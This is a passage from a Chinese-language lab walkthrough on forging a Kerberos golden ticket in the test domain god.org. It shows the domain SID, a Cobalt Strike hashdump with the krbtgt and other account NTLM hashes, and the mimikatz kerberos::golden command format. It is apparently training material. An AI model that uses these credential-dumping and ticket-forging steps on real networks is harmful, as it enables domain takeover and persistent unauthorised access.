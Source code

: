     ![image.png](image%2014.png)
    
    域名称`god.org` ,`SID`为`S-1-5-21-2952760202-1353902439-2381784089` 后面的`500`不需要
    
4. 获取`KRBTGT` 的`NTLM`的`HASH`
    
    我这里使用`CS`抓取
    
    ```python
    beacon> hashdump
    [*] Tasked beacon to dump hashes
    [+] host called home, sent: 82541 bytes
    [+] received password hashes:
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:58e91a5ac358d86513ab224312314061:::
    liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:f98564f9c7fab916678466075899f6e1:::
    ligang:1106:aad3b435b51404eeaad3b435b51404ee:1e3d22f88dfd250c9312d21686c60f41:::
    OWA$:1001:aad3b435b51404eeaad3b435b51404ee:35c29a27ff5086ba975d49493673eddb:::
    ROOT-TVI862UBEH$:1104:aad3b435b51404eeaad3b435b51404ee:c1e8fa40153fef225ce4f3d627181bcf:::
    STU1$:1105:aad3b435b51404eeaad3b435b51404ee:75c2c82fa50b7716428d85372374b139:::
    DEV1$:1107:aad3b435b51404eeaad3b435b51404ee:bed18e5b9d13bb384a3041a10d43c01b:::
    ```
    
    `KRBTGT` 的`NTLM`的`HASH` 是`58e91a5ac358d86513ab224312314061` ，收集完这些信息后金票票据就可以制作了
    
5. 首先创建一个用户`test` ，默认没有管理员权限，
6. 假如现在域管理员账户被改了，我们没有密码，只能登陆`test`用户
7. 登录test用户，测试权限
    
    通过网络访问域控文件像是`access is denied` 无权限
    
    ![image.png](image%2015.png)
    
8. 制作黄金票据,将`mimikatz`拿到客户机
    
    格式：kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /ticket:XXX.kirbi(生成的票据名称)
    